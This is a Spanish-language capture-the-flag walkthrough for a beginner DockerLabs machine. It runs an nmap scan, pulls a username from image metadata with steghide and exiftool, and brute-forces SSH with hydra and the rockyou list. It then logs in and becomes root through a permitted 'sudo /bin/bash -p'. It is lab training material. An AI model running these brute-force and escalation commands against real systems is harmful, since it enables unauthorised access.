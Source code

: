 Maquina borazuwarahctf de [DockerLabs](https://dockerlabs.es)

Dificultad: Muy Fácil

Autor: [BorazuwarahCTF](https://github.com/borazuwarah/)

![Dock](./imagenes/dock.png)

# RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -sVC 172.17.0.2
```

```css
Nmap scan report for 172.17.0.2
Host is up (0.00054s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.00 seconds
```

No vemos nada interesante por lo que continuaremos desde el navegador. Al entrar se ve una imagen de un huevo kinder y al hacer un poco de fuzzing no encontramos nada, por lo que sospecho que trata de `Esteganografía`, lo que significa que puede haber archivos escondidos dentro de la imagen. Para hacerlo nos descargamos la imagen y ejecutamos el siguiente comando:

```css
steghide extract -sf imagen.jpeg
```

nos pide un salvoconducto pero como no lo tenemos le damos al enter y nos extrae un archivo llamado "secret.txt", lo leemos y nos dice que no esta ahi la solución pero *si esta en la imagen*, sabiendo esto podemos usar `exiftool`, para hacerlo ejecutamos:

```css
exiftool imagen.jpeg
```

```ruby
ExifTool Version Number         : 12.57
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:08:19 15:39:19-03:00
File Access Date/Time           : 2024:08:19 15:39:19-03:00
File Inode Change Date/Time     : 2024:08:19 15:39:37-03:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Como vemos, ahora si encontramos la solucion pero a medias, ya que nos da un usuario llamado "borazuwarah" pero no la contraseña, por lo que recurriremos a usar hydra, para hacerlo ejecutamos el siguiente comando:

```css
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

```ABAP
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
```

Como vemos, nos encuentra la contraseña para el usuario "borazuwarah" que es "123456".

# INTRUSION

Ahora simplemente nos conectamos al ssh con:

```css
ssh borazuwarah@172.17.0.2
```

y ponemos la contraseña.

Ya estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ejecutamos `sudo -l` para ver si podemos ejecutar algo como root, y vemos que el binario bash si se puede, por lo que simplemente ponemos:

```ABAP
 sudo /bin/bash -p
```

Y listo, *SOMOS ROOT*.

![root](./imagenes/roott.png)

Gracias por leer.

Si te interesa [INSTAGRAM](https://instagram.com/macim0_)